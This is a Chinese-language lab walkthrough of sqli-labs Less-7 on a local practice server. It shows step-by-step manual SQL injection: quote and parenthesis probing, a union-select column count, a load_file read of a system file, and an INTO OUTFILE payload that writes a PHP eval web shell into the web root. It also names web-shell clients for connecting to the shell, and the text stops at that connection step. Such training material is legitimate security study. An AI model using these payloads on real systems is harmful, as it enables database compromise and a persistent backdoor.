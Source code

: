 # 原创
：  (手工)【sqli-labs7】GET请求、文件读写注入：使用方法

# (手工)【sqli-labs7】GET请求、文件读写注入：使用方法

**目录**

[ 推荐：](#%C2%A0%E6%8E%A8%E8%8D%90%EF%BC%9A)

[一、读写注入（手工）SQL注入基本步骤：](#%E4%B8%80%E3%80%81%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%88%E6%89%8B%E5%B7%A5%EF%BC%89SQL%E6%B3%A8%E5%85%A5%E5%9F%BA%E6%9C%AC%E6%AD%A5%E9%AA%A4%EF%BC%9A)

[二、Less7(GET-Dump into outfile - String)](#%E4%BA%8C%E3%80%81Less7%28GET-Dump%20into%20outfile%20-%20String%29)

[2.1、简介：（文件读写注入）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[2.2、第一步：注入点测试](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[2.3、第二步：查询字段数](#2.3%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E6%9F%A5%E8%AF%A2%E5%AD%97%E6%AE%B5%E6%95%B0)

[2.4、第三步：读取文件/写入文件](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E8%AF%BB%E5%8F%96%E6%96%87%E4%BB%B6%2F%E5%86%99%E5%85%A5%E6%96%87%E4%BB%B6)

[2.5、第四步：使用菜刀、蚁剑、冰蝎等工具进行连接](#2.5%E3%80%81%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E4%BD%BF%E7%94%A8%E8%8F%9C%E5%88%80%E3%80%81%E8%9A%81%E5%89%91%E3%80%81%E5%86%B0%E8%9D%8E%E7%AD%89%E5%B7%A5%E5%85%B7%E8%BF%9B%E8%A1%8C%E8%BF%9E%E6%8E%A5)

[下载、使用：](#%E4%B8%8B%E8%BD%BD%E3%80%81%E4%BD%BF%E7%94%A8%EF%BC%9A)

---


> 
<h2> 推荐：</h2>
[【SQL注入-文件读写】文件的读取+写入：函数、使用方法<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://blog.csdn.net/qq_53079406/article/details/125044475?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/125044475?spm=1001.2014.3001.5501)


## 一、读写注入（手工）SQL注入基本步骤：

> 
第一步：注入点测试
第二步：查询字段数
第三步：读取文件/写入文件
第四步：使用菜刀、蚁剑、冰蝎等工具进行连接
第五步：执行各种操作


---


---


## 二、Less7(GET-Dump into outfile - String)

> 
<h3>2.1、简介：（文件读写注入）</h3>
请求方法：GET
方法：数据库读写注入的木马，然后菜刀、蚁剑、冰 蝎连接


> 
<h3>2.2、第一步：注入点测试</h3>
加上双引号，没有报错
http://localhost:8080/sqli-labs-master/Less-7/?id=1"



加上单引号，报错，说明是单引号闭合
且是字符型注入
且没有的具体的报错回显，就不能使用报错注入了
http://localhost:8080/sqli-labs-master/Less-7/?id=1'


发现报错，说明存在括号被注释了
http://localhost:8080/sqli-labs-master/Less-7/<br/> ?id=1' and 1=1 --+


判断括号个数
加一个括号
http://localhost:8080/sqli-labs-master/Less-7/<br/> ?id=1') and 1=1 --+


加2个括号
发现没有报错了，说明存在2个括号未被闭合
ttp://localhost:8080/sqli-labs-master/Less-7/<br/> ?id=1')) and 1=1 --+




> 
<h3>2.3、第二步：查询字段数</h3>
有2个的时候，报错
http://localhost:8080/sqli-labs-master/Less-7/<br/> ?id=-1')) union select 1,2 --+


3个的时候没报错，所以有3个字段数
http://localhost:8080/sqli-labs-master/Less-7/<br/> ?id=-1')) union select 1,2,3 --+




> 
<h3>2.4、第三步：读取文件/写入文件</h3>
爆破文件路径后，可以使用文件读取，去读取重要的文件
将读取函数注入到正常的查询语句中
例如：
union select 1,2,load_file(C:\\boot.ini)
<hr/>
写入一句话木马
虽然还是报错，但是在目录下，是已经写入进去的
http://localhost:8080/sqli-labs-master/Less-7/<br/> ?id=1')) union select 1,'&lt;?php eval($_REQUEST[123]); ?&gt;',3 into outfile 'D://BaiduNetdiskDownload/phpstudy/phpstudy_pro/WWW/sqli-labs-master/1.php' --+










 

> 
<h3>2.5、第四步：使用菜刀、蚁剑、冰蝎等工具进行连接</h3>

连接是需要知道文件路径
所以写入的的时候需要指定路径的
<hr/>
<h4>下载、使用：</h4>
[【WAF绕过-权限控制工具】菜刀、蚁剑、冰蝎 下载、使用方法<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://blog.csdn.net/qq_53079406/article/details/124871969?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165389617516781685342067%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165389617516781685342067&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-124871969-null-null.nonecase&amp;utm_term=%E8%8F%9C%E5%88%80&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/124871969?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165389617516781685342067%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165389617516781685342067&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-124871969-null-null.nonecase&amp;utm_term=%E8%8F%9C%E5%88%80&amp;spm=1018.2226.3001.4450)

此处以蚁剑为例
添加数据 










#### 下载、使用：
